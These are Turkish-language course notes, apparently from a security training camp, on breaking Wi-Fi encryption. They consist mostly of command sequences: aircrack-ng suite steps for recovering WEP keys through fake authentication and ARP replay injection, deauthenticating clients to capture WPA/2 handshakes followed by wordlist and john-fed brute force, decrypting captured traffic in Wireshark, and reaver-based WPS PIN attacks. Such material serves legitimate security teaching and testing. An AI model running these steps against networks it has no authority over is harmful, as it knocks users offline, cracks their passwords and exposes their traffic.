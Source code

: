 ## WEP

- WEP'te IV (Initation vector) başlığa açık olarak yerleştirilir. Açık olan değerle şifreli değeri kıyaslayarak anahtarı bulmaya çalışırız. WEP'te anahtara ihtiyaç olmadan oturum kurma imkanı vardır. Bu zafiyet bize paket enjeksiyonu yapma imkanı verir.

**- WEP Parolası Kırma Uygulaması:**

    => airmon-ng start wlan0
    
    => airodump-ng wlan0mon
    
    => airodump-ng wlan0mon --bssid C0:4A:00:E9:08:2C -c 1 -w lyk201wep
    
    => (Yeni terminal) aireplay-ng --fakeauth 1 -a C0:4A:00:E9:08:2C wlan0mon (paket enjekte etmemizi sağlayan araç)
    
    => aireplay-ng --arpreplay -b C0:4A:00:E9:08:2C wlan0mon (paket enjekte eder)
    
    => (64bit için = DATA 5.000, 128bit için = DATA 35.000-40.000) aircrack-ng lyk2016.cap (KEY FOUND!)

## WPA/2

- Four-way handshake'e dayanır. Brute-force'a açıktır. Ağa bağlı bir istemci yoksa kırılamaz.

**- İşleyiş:** WEP için yapılan işlemleri tekrar et. Ön koşullar: bir istemcinin WPA/2 ağındaki oturumunu baştan sona kaydetmek. Bağlı istemcileri düşürüp tekrar bağlanmasını sağlayarak veya istemcinin bağlanmasını bekleyerek yapılabilir.

**- İstemciyi düşürerek WPA/2 kırma uygulaması:**

    => aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon (İstemciyi düşürüyoruz)
    
    => airodump-ng wlan0mon --bssid C0:4A:00:E9:08:2C -c 6 -w lyk201wpa2 (Kanalı dinlemeye alıp istemci tekrar bağlanmasını bekliyoruz. İstemci tekrar bağlandığında bütün oturumu kaydediyoruz.)
    
    => aircrack-ng lyk2016wpa4-01.cap -w /usr/share/wordlists/ (Hazır wordlist'lerden birini kullanarak parolayı kırmaya çalışıyoruz.)
    
    => vi /tmp/sozluk.txt (Parolayı kırmak için bir wordlist oluşturuyoruz.)
    
    => aircrack-ng lyk2016wpa4-01.cap -w /tmp/sozluk.txt (Oluşturduğumuz wordlist'i kullanarak parolayı kırmaya çalışıyoruz.)

**- Brute Force:**

    => john --incremental --stdout | aircrack-ng lyk2016wpa4-01.cap -b BSSID -w -

**- Wireshark filter:** Kaydettiğimiz oturumu Wireshark ile inceleyebiliriz. Parolayı kırabilirsek bütün paketler plain text(açık metin) olarak gözükür.

**- Kırdığımız parolayla paketleri Wireshark'ta plain text'e dönüştürmek için:**
    
    - Edit -> Preferences -> Protocols -> ieee 802.11 -> Decryption Keys: Edit -> [+] wpa-pwd -> KEY: password:ESSID

**- WPS:** 8 bitlik doğruluma kullanılır. 10^7 (1 bit tahminle yaklaşık 8 saatte çözülebilir. İki parça şeklinde, 4 + 3 gönderiliyor. İlk 4'lük doğruysa geri kalan 3 yollanır.

    => wash -i wlan0mon -wps'li AP(Access Point)'leri bulur
    
    => reaver -i wlan0mon -b BSSID -vv (-p <pin>)
    
    
